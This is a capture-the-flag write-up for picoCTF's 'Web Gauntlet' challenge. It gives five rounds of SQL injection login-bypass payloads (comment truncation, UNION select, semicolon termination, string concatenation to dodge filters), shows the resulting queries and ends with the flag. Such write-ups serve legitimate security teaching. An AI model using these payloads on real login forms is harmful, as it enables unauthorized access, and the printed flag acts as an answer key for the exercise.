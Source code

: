 # Web Gauntlet
- Tags: Web Exploitation
- Description: Can you beat the filters? Log in as admin.

# Solution
- We have to exploit SQL Injection in this challenge.

```
Round 1
Filter: or
Username: admin' --
Password: 123
Actual Query: SELECT * FROM users WHERE username='admin' -- AND password='123'
```

```
Round 2
Filter: or and = like --
Username: admin' union select * from users where '1
Password: 123
Actual Query: SELECT * FROM users WHERE username='admin' union select * from users where '1' AND password='123'
```

```
Round 3
Filter: or and = like > < --
Username: admin';
Password: 123
Actual Query: SELECT * FROM users WHERE username='admin';' AND password='123'
```

```
Round 4
Filter: or and = like > < -- admin
Username: ad'||'min';
Password: 123
Actual Query: SELECT * FROM users WHERE username='ad'||'min';' AND password='123'
```

```
Round 5
Filter: or and = like > < -- union admin
Username: ad'||'min';
Password: 123
Actual Query: SELECT * FROM users WHERE username='ad'||'min';' AND password='123'
```

- After completing all of the rounds, you can now visit second link, and go to the bottom, where you will find the flag.

```
picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}
```
